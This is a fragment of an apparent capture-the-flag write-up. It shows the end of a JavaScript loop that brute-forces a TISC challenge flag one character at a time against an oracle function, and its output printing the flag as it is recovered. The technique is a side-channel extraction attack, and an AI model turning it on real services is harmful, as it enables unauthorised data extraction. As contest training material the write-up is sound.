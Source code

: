 ```js
      for (let ord = 33; ord < 127; ord++) {
          let x = String.fromCharCode(ord);
          if (await check(idx, x)) {
              idx += 1;
              flag += x;
              found = true;
              console.log(flag);
              if (flag.at(-1) == "}") return flag;
              break;
          }
      }
      if (!found) return "";
  }
}

await run();
```

```
T
TI
TIS
TISC
TISC{
TISC{a
TISC{a1
TISC{a1P
TISC{a1Ph
TISC{a1PhA
TISC{a1PhAb
TISC{a1PhAb3
TISC{a1PhAb3t
TISC{a1PhAb3t_
TISC{a1PhAb3t_0
TISC{a1PhAb3t_0N
TISC{a1PhAb3t_0N1
TISC{a1PhAb3t_0N1Y
TISC{a1PhAb3t_0N1Y}
'TISC{a1PhAb3t_0N1Y}'
```
